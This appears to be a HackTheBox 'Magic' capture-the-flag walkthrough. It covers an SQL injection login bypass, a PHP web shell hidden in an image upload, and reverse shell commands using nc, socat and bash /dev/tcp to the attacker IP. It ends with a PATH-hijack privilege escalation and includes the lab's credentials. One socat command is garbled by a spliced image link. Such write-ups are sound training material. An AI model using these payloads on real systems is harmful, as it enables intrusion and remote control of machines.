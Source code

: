 ```yaml
---
title: "Magic"
date: 2024-07-24
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "magic", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


# Magic

# Magic
OS: Linux
Difficulty: Medium

## Credentials
```text
theseus : iamkingtheseus
theseus : Th3s3usW4sK1ng
```

# Enumeration
# Nmap
TCP
```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQClcZO7AyXva0myXqRYz5xgxJ8ljSW1c6xX0vzHxP/Qy024qtSuDeQIRZGYsIR+kyje39aNw6HHxdz50XSBSEcauPLDWbIYLUMM+a0smh7/pRjfA+vqHxEp7e5l9H7Nbb1dzQesANxa1glKsEmKi1N8Yg0QHX0/FciFt1rdES9Y4b3I3gse2mSAfdNWn4ApnGnpy1tUbanZYdRtpvufqPWjzxUkFEnFIPrslKZoiQ+MLnp77DXfIm3PGjdhui0PBlkebTGbgo4+U44fniEweNJSkiaZW/CuKte0j/buSlBlnagzDl0meeT8EpBOPjk+F0v6Yr7heTuAZn75pO3l5RHX
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOVyH7ButfnaTRJb0CdXzeCYFPEmm6nkSUd4d52dW6XybW9XjBanHE/FM4kZ7bJKFEOaLzF1lDizNQgiffGWWLQ=
|   256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0dM4nfekm9dJWdTux9TqCyCGtW5rbmHfh/4v3NtTU1
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Magic Portfolio
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

# HTTP
![screenshot](/assets/images/magic1.png)

> Please **[Login](http://10.10.10.185/login.php)**, to upload images.
## login.php
![screenshot](/assets/images/magic2.png)

## Fuzzing
```sh
ffuf -u http://10.10.10.185 -H "Host: FUZZ.usage.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac

gobuster vhost -u http://10.10.10.185 -t 50 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

## SQLi
`' or 1=1-- -` as the username 

![screenshot](/assets/images/magic3.png)

```sh
echo "GIF8<?php echo system($_GET["cmd"]);?>" > test.gif
```
![screenshot](/assets/images/magic4.png)

-> did not work 


# Foothold
## File Upload - Bypass filters
Download an actual image, add `<?php echo system($_GET["cmd"]);?>` .
![screenshot](/assets/images/magic5.png)

![screenshot](/assets/images/magic7.png)

http://10.10.10.185/images/uploads/puppy.php.png?cmd=id
![screenshot](/assets/images/magic8.png)

```sh
# original payload
busybox nc 10.10.14.6 443 -e /bin/sh

# url encoded payload
busybox%20nc%2010.10.14.6%20443%20-e%20%2Fbin%2Fsh
```

Execute the command
![screenshot](/assets/images/magic10.png)

Getting a shell and upgrade to interactive shell
![screenshot](/assets/images/magic11.png)
# Privilege Escalation
## Enumeration
![screenshot](/assets/images/magic12.png)

![screenshot](/assets/images/magic13.png)
![screenshot](/assets/images/magic14.png)
```sh
mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
```

![screenshot](/assets/images/magic15.png)

## Shell as theseus
![screenshot](/assets/images/magic17.png)

![screenshot](/assets/images/magic18.png)

```sh
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

> `/-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo`

![screenshot](/assets/images/magic21.png)

![screenshot](/assets/images/magic22.png)

This program is using `cat /proc/cpuinfo` instead of `/bin/cat /proc/cpuinfo`. 
The `/bin` directory containing the `cat` binary is included in the user's PATH environment variable. 

```sh
echo $PATH
```

![screenshot](/assets/images/magic23.png)

Normally, it is `/usr/bin/local`. This behavior can be exploited by modifying the `PATH` variable to contain a directory that is writable by our current user. 

Users are allowed to modify the variable and prepend a directory. Let's add `/tmp` directory to the `PATH`. 

```sh
export PATH=/tmp:$PATH
echo $PATH
```

![screenshot](/assets/images/magic24.png)
Added. 

Downlaod pre-compiled Socat to target.

Create a simple script in bash that sends a reverse shell to attackaer machine using Socat.

```sh
echo "./socat tcp-connect:10.10.14.6:555![screenshot](/assets/images/magic26.png)5
exec:/bin/sh,pty,stderr,setsid,sigint,sane" > cat
chmod +x cat
```

```sh
/bin/sysinfo
```

To execute the cat script. 
-> Did not work 

# Alternative method
```sh
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/5555 0>&1' > fdisk

chmod +x fdisk
theseus@ubuntu:/dev/shm$ export PATH="/dev/shm:$PATH"
theseus@ubuntu:/dev/shm$ echo $PATH    
```

![screenshot](/assets/images/magic25.png)

![screenshot](/assets/images/magic26.png)
